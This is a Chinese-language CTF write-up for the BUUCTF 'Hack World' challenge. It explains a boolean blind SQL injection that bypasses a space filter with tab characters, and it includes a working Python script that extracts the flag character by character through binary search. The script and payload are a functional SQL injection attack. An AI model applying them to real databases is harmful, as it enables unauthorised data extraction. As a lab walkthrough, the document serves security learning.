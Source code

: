 



## SQL注入

### Hack World（盲注）

![image-20200827132126164](BUUCTF——Web.assets/image-20200827132126164.png)

打开后能发现一个对话框和一些提示。

说是提供页面ID，也就是数字型注入。

输入1和2会得到两个不同的结果，如果输入其他的内容则会是报错类型的结果。

```
1
Hello,glzjin wants a girlfriend.
2
Do you want to be my girlfriend?
3
Error Occured When Fetch Result.
```

可知为盲注。尝试后可知空格被过滤了，选择用Tab键代替空格，可以输入。利用布尔盲注，采用二分法一位一位的比较可以得到flag。

```python
import requests
import time
#url是随时更新的，具体的以做题时候的为准
url = 'http://zjnuctf.bi0x.cn:28356/index.php'
data = {"id":""}
flag = 'flag{'

i = 6
while True:
#从可打印字符开始
    begin = 32
    end = 126
    tmp = (begin+end)//2
    while begin<end:
        print(begin,tmp,end)
        time.sleep(1)
        data["id"] = "if(ascii(substr((select	flag	from	flag),{},1))>{},1,2)".format(i,tmp)
        r = requests.post(url,data=data)
        if 'Hello' in r.text:
            begin = tmp+1
            tmp = (begin+end)//2
        else:
            end = tmp
            tmp = (begin+end)//2

    flag+=chr(tmp)
    print(flag)
    i+=1
    if flag[-1]=='}':
        break

```
